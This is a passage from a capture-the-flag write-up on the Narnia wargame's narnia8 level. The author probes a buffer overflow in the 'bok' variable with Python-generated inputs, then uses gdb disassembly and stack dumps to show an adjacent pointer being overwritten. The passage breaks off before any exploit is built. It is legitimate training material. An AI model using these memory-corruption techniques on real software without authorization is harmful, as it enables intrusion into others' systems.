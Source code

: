 Here we have a potential overflow in the **bok** variable, but if we try to overflow it we got some weird results :

```bash
narnia8@narnia:/narnia$ ./narnia8 $(python -c 'print 20 * "A"')
AAAAAAAAAAAAAAAAAAAA�������������
narnia8@narnia:/narnia$ ./narnia8 $(python -c 'print 21 * "A"')
Segmentation fault
```

We need to dig deeper, place a breakpoint at *printf()* in the *func()* function and run the code...

```nasm
narnia8@narnia:/narnia$ gdb narnia8

(gdb) set disassembly-flavor intel
(gdb) disas func
Dump of assembler code for function func:
   0x0804841b <+0>:	push   ebp
   0x0804841c <+1>:	mov    ebp,esp
   0x0804841e <+3>:	sub    esp,0x18
   0x08048421 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048424 <+9>:	mov    DWORD PTR [ebp-0x4],eax
   
...[removed]...

   0x0804847f <+100>:	push   eax
   0x08048480 <+101>:	push   0x8048550
   0x08048485 <+106>:	call   0x80482e0 <printf@plt>
   0x0804848a <+111>:	add    esp,0x8
   0x0804848d <+114>:	nop
   0x0804848e <+115>:	leave
   0x0804848f <+116>:	ret
End of assembler dump.

(gdb) break *func+106
Breakpoint 1 at 0x8048485

(gdb) run $(python -c 'print 20 * "A"')
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16wx $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffd871
0xffffd68c:	0xffffd698	0x080484a7	0xffffd871	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740

(gdb) run $(python -c 'print 21 * "A"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 21 * "A"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16wx $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffc541
0xffffd68c:	0xffffd698	0x080484a7	0xffffd870	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740

(gdb) run $(python -c 'print 22 * "A"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 22 * "A"')
```